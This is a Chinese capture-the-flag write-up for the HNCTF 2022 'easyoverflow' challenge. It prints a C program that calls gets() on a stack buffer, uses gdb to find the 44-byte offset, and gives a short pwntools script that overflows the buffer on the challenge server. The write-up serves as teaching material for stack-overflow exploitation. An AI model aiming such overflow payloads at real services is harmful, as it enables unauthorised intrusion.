



# [HNCTF 2022 Week1]easyoverflow

## 基本信息

- 题目链接:https://www.nssctf.cn/problem/2941

- 考点清单:栈溢出、ret2text

- 工具清单:gdb


## 一、看到什么

- 两个文件:

    - easy_overflow.c:

    ```c
    #include<stdio.h>
    int main()
    {
    setbuf(stdin,0);
    setbuf(stdout,0);
    setbuf(stderr,0);
    puts("Input something");
    char name[30];
    int number=0;   //number的值存在栈中
    gets(name);     //gets函数不会对输入的长度进行限制
    if(number!=0){
        puts("You win.");
        system("cat flag"); //flag在此
    }
    return 0;
    }
    ```

   `栈溢出条件`：`gets()`不会对输入长度进行限制，哪怕超过了预分配给`name`的空间(30字节)

   `解题核心`:需要执行`if`语句内的`system`函数

    - easy_overflow:可执行程序，可用于`动态或者静态调试`

## 二、想到什么解题思路

- 修改`number`的值:执行`if`语句内的代码的唯一方式，就是让`number`不为`0`，想到找到`number`在栈中的`存储位置`即可

- 使用gdb静态调试,判断需要溢出的位置,编写`exp`将参数传到`远程环境`

## 三、尝试过程与结果记录

1. 简单了解一下文件信息

```sh
file easy_overflow
```

文件是`64位`的



2. 查看汇编代码(使用`gdb`)

```sh
gdb easy_overflow

set disassembly-flavor intel #将反汇编代码的显示风格设置为 Intel 风格(默认为 AT&T 风格)

disassemble main #查看主函数汇编
```



也就是说`number`存的值在`rbp指向地址-0x04`位置,相对于`rsp`的相对位置为`rsp指向地址+(0x30-0x04)`就是`rsp指向地址+0x2C(44字节)`，参考以下图示



因为`gets()`函数写入顺序是从`低地址到高地址`(rsp指向地址-->rbp指向地址方向),所以输入`0x2C(44字节)`的任意字符加任意8字节以内的(由于是64位)字符即可替换`number`值

3. 尝试写脚本

我这里输入了46个`A`，这样覆盖了number原有的值(0x00000000)为(0x00004141)

```py
from pwn import *
n = remote('node5.anna.nssctf.cn',27149)    #远程连接
payload=46*'A' 
n.sendline(payload) #发送payload至远程服务器
n.interactive()
```

## 四、总结

1. 对于汇编代码基本语句要敏感如:`sub(经常用于给数组腾空间)`、`cmp(常对应if语句)`、`call(调用函数)`

2. 了解常用寄存器`rbp/ebp`、`rsp/esp`、`eip/rip`功能

3. `rsp与变量`以及`rbp与变量`的偏移地址决定`payload`的结构与长度

